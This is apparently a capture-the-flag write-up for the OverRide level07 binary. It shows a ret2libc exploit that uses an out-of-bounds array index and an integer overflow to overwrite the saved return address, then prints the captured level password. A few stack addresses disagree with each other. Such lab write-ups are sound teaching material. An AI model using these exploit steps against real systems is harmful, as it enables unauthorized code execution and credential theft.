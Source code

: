 ### notes
```c
0x08048723  main
0x080486d7  read_number
0x08048630  store_number
0x080485e7  get_unum
```
---
##### 0x08048723 : main() : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x08048723--main--assembly)
##### 0x080486d7 : read_number(int *tab) : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x080486d7--read_numberint-tab--assembly)
##### 0x08048630 : store_number(int *tab) : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x08048630--store_numberint-tab--assembly)
##### 0x080485e7 : get_unum() : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x080485e7--get_unum--assembly)

---
### Code Prediction
- check [source](./source)
---
### Stack Illustration
- N/A
---
### Process of the Exploit
- The program store input numbers in an array and let us see the array

- After disas, we know the program store in an array of 100 : int tab[100] BUT there isn't check on the index, we can store and read at more than 100 and less than 0
```shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
Welcome to wil's crappy number storage service!   
----------------------------------------------------
Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
Number: 1337
Index: 13
Completed store command successfully
Input command: read
Index: 13
Number at data[13] is 1337
Completed read command successfully
Input command: 
```
- We can't store in all the tab, some indexes are protected (index % 3 == 0) and the argv and env are cleaned at the beginning...
- Without the index protection we can read in the stack, like a format string
- Let's find the EIP address with this and maybe use it for a ret2libc! To do it, we need to find the index of EIP on the tab
- First, find the address of the tab, of the index 0
- Put a breakpoint at the start of the function read_number and get the argument, it's the tab
```shell
(gdb) b read_number
Breakpoint 1 at 0x80486dd
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: read

Breakpoint 1, 0x080486dd in read_number ()
(gdb) x $ebp+0x8
0xffffd430:	0xffffd454
(gdb) 
```
- **0xffffd430** is the **address** of where is stored the **tab** address and **0xffffd454** is the address of the **tab itself**.
 
- We need now the index of EIP in the read_number function
```
(gdb) set disassembly-flavor intel
(gdb) b read_number
Breakpoint 1 at 0x80486dd
(gdb) b *main+520
Breakpoint 2 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: read

Breakpoint 2, 0x0804892b in main ()
```
- Get the frame infos to get EIP
```
(gdb) i f
Stack level 0, frame at 0xffffd620:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
  ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610, edi at 0xffffd614, eip at 0xffffd61c
(gdb) 
```
- **EIP**  is **`0xffffd61c`**. Find the addres by calculating the difference between the tab address and the EIP address like before
 
```txt
0xffffd62c - 0xffffd464 = 456

456 / 4 = 114
```
- The index of EIP in the tab seems to be 114, check it
```shell
Input command: read
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully
Input command: 
```
`4158936339 == 0xf7e45513` that's good

Verify by checking the content of EIP at the same breakpoint
```shell
Breakpoint 2, 0x0804892b in main ()

(gdb) x/x 0xffffd62c
0xffffd62c:	0xf7e45513
```
- Ok, it's good. We have the index of EIP. We will try to overwrite it with the system function to do a ret2libc

    - **system** : **`0xf7e6aed0`** : **`4159090384`**
    - **/bin/sh** : **`0xf7f897ec`** : **`4160264172`**
- BUT... the index 114 is protected. We need to bypass it for write at this index. We can do it with the int overflow

To get 114 by the overflow : **(UINT_MAX / 4) + 114**
```txt
( 4294967296 / 4 ) + 114 ) = 1073741938

1073741938 % 3 = 1
```
##### the exploit of ret2libc :
```c
index 114 : system address in decimal (4159090384)
index 115 : will be DUMM (no need to set it)
index 116 : /bin/sh address in decimal (4160264172)
```
- 114 will be converted to 1073741938 to bypass the index check
---

### Solution :
- apply the exploit

```shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172                     
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ pwd
/home/users/level07
$ cat /home/users/level08/.pass                         
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
$ 

```
|**`flag : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`**
---

### Ressources :
[Integer_overflow](https://en.wikipedia.org/wiki/Integer_overflow)